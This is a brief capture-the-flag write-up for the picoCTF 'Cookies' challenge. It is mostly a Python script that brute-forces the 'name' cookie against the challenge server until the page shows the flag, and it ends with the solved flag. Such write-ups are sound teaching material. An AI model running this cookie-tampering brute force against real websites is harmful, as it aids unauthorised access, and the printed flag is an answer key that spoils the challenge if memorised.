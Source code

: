 ## Cookies

This problem requires you to change the cookie "name" to the value that is the flag. We choose to approach this question with a brute force script which wil try every number until the page outputs a flag.

```python
# Import Libraries
from bs4 import BeautifulSoup
import requests

url = 'http://mercury.picoctf.net:54219/check'

# loop through every number as the value to the cookie
for i in range(18, 100):
    cookies = dict(name=str(i))
    response = requests.get(url, cookies=cookies)

    # Check to see if the page outputted a flag
    soup = BeautifulSoup(response.text, "html.parser")

    if "pico" in response.text:
        flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
        print(flag.get_text())
        break
    
    print("Attempt: ", i)
```

### Flag
`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`

